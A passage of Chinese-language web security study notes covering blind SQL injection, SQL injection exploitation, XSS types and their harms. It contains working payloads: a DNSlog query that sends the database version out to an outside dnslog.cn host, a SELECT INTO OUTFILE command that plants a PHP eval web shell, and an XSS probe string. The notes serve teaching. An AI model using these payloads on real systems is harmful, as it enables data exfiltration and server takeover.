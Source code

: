 时间盲注主要通过页面响应的时间来判断，当select语句查询为真时，页面会根据select语句等待几秒后才出现页面内容。主要的函数有sleep函数。

#### SQL注入利用

数据外带：（dnslog）

```
select CONCAT("\\\\",version(),"2.ccz549.dnslog.cn\\a.txt");
select LOAD_FILE(CONCAT("\\\\",version(),"2.ccz549.dnslog.cn\\a.txt"));
```

写shell：

```
 select "<?php eval($_POST['x'];?>" into outfile "D:/phpstudy/WWW/sqli/Less-1/shell.php";
```

## XSS跨站脚本攻击

本质：插入了 javascript代码 

分类：反射型、 存储型、dom型 

利用：弹窗、打 cookie、钓鱼、

#### **寻找xss漏洞**

寻找WEB应用上的输入与输出口。例如网站输入框、URL参数等等。

在可控参数中提交<script>alert(/xss/)</script>等攻击字符串，观察输出点是否对这些攻击字符串进行转义、过滤、消毒等处理。

如果原样输出，那么必然存在XSS漏洞。

#### **阐述xss有几种类型，各有什么区别?**

XSS有反射型XSS、存储型XSS和DOM型XSS三种类型。

反射型XSS在有文本框的情况下就可能出现，反射型XSS不经过数据库，通过网页直接解析java script代码。因为没有存储，所以只能解析一次。

存储型XSSPayload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS，如留言板

反射型或存储型是服务端将提交的内容反馈到了html源码内，导致触发xss。也就是说返回到html源码中可以看到触发xss的代码。

DOM型XSS主要通过java script操作document，实现dom树的重构，主要是通过查看网页的代码，用户可以在文本框或者url写入java script代码修改网页的dom，造成客户端payload在浏览器中执行，也只能执行一次，不存在存储功能。DOM型XSS只与客户端上的js交互，也就是说提交的恶意代码，被放到了js中执行，然后显示出来

#### **危害**：

•Cookie盗取

•钓鱼（伪造登录框，页面）

•获取IP段

•站点重定向

•获取客户端页面信息，例如邮件内容窃取

•XSS蠕虫

## 文件上传漏洞

